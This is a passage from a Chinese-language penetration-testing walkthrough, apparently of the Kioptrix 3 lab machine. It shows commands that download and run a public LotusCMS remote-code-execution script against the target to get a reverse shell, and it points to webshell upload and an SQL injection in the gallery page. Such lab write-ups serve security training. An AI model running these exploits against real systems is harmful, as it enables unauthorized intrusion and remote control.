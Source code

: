 因为已经有系统用户账号，后续直接ssh登录进行提取，有兴趣可以尝试在gallery后台内容管理平台找漏洞进行上马拿shell

### 法二

我们不使用msf的漏洞，去google寻找该LotusCMS相关漏洞利用，[github](https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh)有相关漏洞利用脚本

```bash
wget https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh
chmod 755 lotusRCE.sh
./lotusRCE.sh 192.168.88.27
根据提示输入反弹shell的ip和端口
```

![image-20240630163624105](image/image-20240630163624105.png)

后续如上

### 法三

可以尝试找到phpMyAdmin 2.11.3的漏洞，但是好像找不到

## sql注入getshell

根据提示说明有sql注入在http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos这个目录下我们发现，着存在sql注入，抓包是GET请求

![image-20240618220712424](image/image-20240618220712424.png)
